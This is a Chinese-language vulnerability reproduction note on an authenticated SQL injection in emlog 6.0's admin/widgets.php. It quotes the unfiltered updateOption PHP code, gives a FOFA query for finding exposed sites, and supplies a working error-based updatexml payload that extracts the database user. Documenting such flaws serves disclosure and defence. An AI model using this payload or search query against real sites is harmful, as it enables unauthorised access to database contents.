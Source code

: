 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>emlog 6.0 </a-checkbox></br>

## FOFA

<a-checkbox checked>app="EMLOG"</a-checkbox></br>

## 漏洞复现

产品主页

```python
https://github.com/emlog/emlog
```

![img](../../../.vuepress/public/img/1634002177714-22159b01-c44f-476a-bb4f-8363cceb9460.png)

存在漏洞的文件为 **admin/widgets.php**

![img](../../../.vuepress/public/img/1634002231213-67b50259-52f0-4cf0-983b-fc1a88cc6471.png)

```python
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 **updateOption**

![img](../../../.vuepress/public/img/1634002837216-c1000372-81ea-4671-bc5d-c378110d93db.png)

```python
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```python
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![img](../../../.vuepress/public/img/1634002917512-820b18c8-d37a-4507-974c-1ba9c2afc2ed.png)![img](../../../.vuepress/public/img/1634003089227-452c8b4e-d367-4f01-af1f-e90a79bfd91f.png)